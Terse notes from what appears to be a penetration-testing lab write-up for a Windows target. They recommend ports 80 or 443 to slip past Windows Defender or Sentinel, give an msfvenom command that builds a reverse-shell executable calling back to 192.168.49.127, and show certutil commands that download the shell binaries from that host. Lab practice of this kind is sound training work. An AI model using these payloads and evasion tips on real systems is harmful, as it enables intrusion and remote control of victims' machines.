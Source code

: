 Similar to the PG Nickel.
One thing might worth to mention is the port.
It may caused by windows defender or sentinal. Use the port that won't be blocked easily.
e.g. 80 443 or the port that using by the web app themselves


### php-reverse-shell won't work. 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.127 LPORT=4443 -f exe > shell2.exe
```

### shell and privilege
```
certutil -urlcache -f http://192.168.49.127/shell.exe shell.exe
certutil -urlcache -f http://192.168.49.127/shell2.exe shell2.exe
```